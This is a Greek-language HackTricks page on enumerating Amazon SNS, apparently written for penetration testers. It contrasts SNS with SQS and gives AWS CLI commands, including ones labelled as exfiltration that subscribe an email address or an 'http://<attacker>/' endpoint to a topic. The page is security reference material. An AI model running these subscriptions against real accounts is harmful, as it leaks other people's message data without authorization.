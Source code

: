 # AWS - Απαρίθμηση SNS

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## SNS

Το Amazon Simple Notification Service (Amazon SNS) περιγράφεται ως ένα **πλήρως διαχειριζόμενο υπηρεσία μηνυμάτων**. Υποστηρίζει τόσο την **εφαρμογή-προς-εφαρμογή** (A2A) όσο και την **εφαρμογή-προς-άνθρωπο** (A2P) τύπους επικοινωνίας.

Οι βασικές λειτουργίες για την επικοινωνία A2A περιλαμβάνουν τους **μηχανισμούς δημοσίευσης/συνδρομής (pub/sub)**. Αυτοί οι μηχανισμοί εισάγουν **θέματα**, τα οποία είναι κρίσιμα για τη δυνατότητα υψηλής ροής, βασισμένης σε πιέσεις, πολλαπλών-προς-πολλαπλούς μηνυμάτων. Αυτή η λειτουργία είναι υψίστης σημασίας σε σενάρια που περιλαμβάνουν κατανεμημένα συστήματα, μικρο-υπηρεσίες και αρχιτεκτονικές serverless που βασίζονται σε συμβάντα. Χρησιμοποιώντας αυτά τα θέματα, τα συστήματα δημιουργών μπορούν να διανέμουν αποτελεσματικά μηνύματα σε ένα **ευρύ φάσμα συστημάτων συνδρομητών**, διευκολύνοντας ένα πρότυπο μηνυμάτων fanout.

### **Διαφορά με το SQS**

Το **SQS** είναι μια υπηρεσία βασισμένη σε **ουρά** που επιτρέπει την επικοινωνία σημείου-προς-σημείο, εξασφαλίζοντας ότι τα μηνύματα επεξεργάζονται από έναν **μοναδικό καταναλωτή**. Προσφέρει **παράδοση τουλάχιστον μία φορά**, υποστηρίζει τυπικές και FIFO ουρές, και επιτρέπει τη διατήρηση μηνυμάτων για επανάληψη και καθυστερημένη επεξεργασία.\
Από την άλλη, το **SNS** είναι μια υπηρεσία βασισμένη σε δημοσίευση/συνδρομή, επιτρέποντας την **ένα-προς-πολλούς** επικοινωνία με τη μετάδοση μηνυμάτων σε **πολλούς συνδρομητές** ταυτόχρονα. Υποστηρίζει **διάφορα σημεία συνδρομής όπως email, SMS, λειτουργίες Lambda και HTTP/HTTPS**, και παρέχει μηχανισμούς φιλτραρίσματος για στοχευμένη παράδοση μηνυμάτων.\
Ενώ και οι δύο υπηρεσίες επιτρέπουν την αποσύνδεση μεταξύ στοιχείων σε κατανεμημένα συστήματα, το SQS εστιάζει στην επικοινωνία με ουρές, ενώ το SNS τονίζει τα πρότυπα επικοινωνίας βασισμένα σε συμβάντα και fan-out. 

### **Απαρίθμηση**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Σημειώστε ότι αν το **θέμα είναι τύπου FIFO**, μόνο συνδρομητές που χρησιμοποιούν το πρωτόκολλο **SQS** μπορούν να χρησιμοποιηθούν (το HTTP ή το HTTPS δεν μπορούν να χρησιμοποιηθούν).

Επίσης, ακόμα κι αν το `--topic-arn` περιέχει την περιοχή, βεβαιωθείτε ότι καθορίζετε τη σωστή περιοχή στο **`--region`** αλλιώς θα λάβετε ένα σφάλμα που φαίνεται ότι δεν έχετε πρόσβαση, αλλά το πρόβλημα είναι η περιοχή.
{% endhint %}

#### Μη εξουσιοδοτημένη Πρόσβαση

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Ανόδος Δικαιωμάτων

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Μετά την Εκμετάλλευση

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Διατήρηση

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Αναφορές

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
